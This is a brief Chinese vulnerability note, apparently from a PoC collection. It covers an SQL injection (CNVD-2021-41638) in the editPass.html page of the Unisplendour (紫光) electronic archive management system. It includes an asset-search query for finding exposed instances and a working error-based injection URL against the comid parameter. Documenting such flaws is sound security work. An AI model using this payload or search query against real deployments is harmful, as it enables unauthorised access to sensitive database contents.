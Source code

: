 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## 网络测绘

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20220525145742607](images/202205251457947.png)

验证POC

```
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![](images/202205251458637.png)